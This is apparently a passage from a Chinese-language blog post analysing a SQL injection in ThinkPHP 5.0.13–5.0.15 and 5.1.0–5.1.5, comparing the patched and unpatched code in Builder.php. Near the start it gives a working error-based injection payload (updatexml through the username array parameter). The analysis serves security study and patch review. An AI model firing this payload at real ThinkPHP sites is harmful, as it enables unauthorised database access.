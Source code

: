 2018年3月26日tp进行了一次安全更新。

![1.1](/Users/h11ba1/Desktop/markdown/博客/thinkphp框架学习/think5.0,5.1sql注入分析/1.1.png)

本次更新大佬们立马找到了漏洞点并给出了paylaod：

```
public/index.php/index/index/?username[0]=inc&username[1]=updatexml(1,concat(0x7e,user(),0x7e),1)&username[2]=1
```

本篇文章主要分析漏洞存在点的定位，payload的构造。分析一下大佬们是怎么处理开源cms安全更新，并构造exp的。

涉及版本：**5.0.13<=ThinkPHP<=5.0.15** 、 **5.1.0<=ThinkPHP<=5.1.5** 。



## 1.Tp5.0.16的安全更新：



![1.2](1.2.png)

```php
case 'inc':
			 $result[$item] = $item . '+' . floatval($val[2]);
```



```php
case 'inc':
       if ($key == $val[1]) {	                        
           $result[$item] = $item . '+' . floatval($val[2]);
       }
```

本次更新对library/think/db/Builder.php中获取到的参数增加了判断：判断输入值必须和数据库字段值相等才能进行下一步的代码拼接。

从这个点可以判断本次安全更新极大可能与sql注入有关。
